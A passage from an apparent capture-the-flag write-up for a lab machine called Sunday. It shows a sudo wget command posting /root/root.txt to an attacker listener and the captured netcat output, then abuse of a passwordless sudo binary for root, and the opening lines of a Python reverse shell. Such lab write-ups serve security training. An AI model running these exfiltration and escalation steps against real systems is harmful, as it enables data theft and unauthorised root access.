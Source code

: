 

    sammy@sunday:~$ sudo wget --post-file /root/root.txt http://10.10.14.5:443/
    --00:52:35--  http://10.10.14.5:443/
               => `index.md'
    Connecting to 10.10.14.5:443... connected.
    HTTP request sent, awaiting response...





    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 49337
    POST / HTTP/1.0
    User-Agent: Wget/1.10.2
    Accept: */*
    Host: 10.10.14.5:443
    Connection: Keep-Alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 33

    fb40fab6...



#### Overwrite troll

Enough just getting the flag. I obviously want a root shell.

This was actually how I first solved the box. When enumerating as sunny,
I found a binary named troll that sunny could run with sudo without
password:



    sunny@sunday:~$ sudo -l
    User sunny may run the following commands on this host:
        (root) NOPASSWD: /root/troll

    sunny@sunday:~$ sudo /root/troll
    testing
    uid=0(root) gid=0(root)



There's nothing we could do with this as sunny. However, I think the box
author expects us to use this file to privesc (hence the [overwrite
script](#overwrite)).

So let's make troll useful. First, on kali, create a shell.py, which is
basically a nicely formatted [reverse python shell from
pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):



    #!/usr/bin/python

    import socket
    import subprocess
    import os
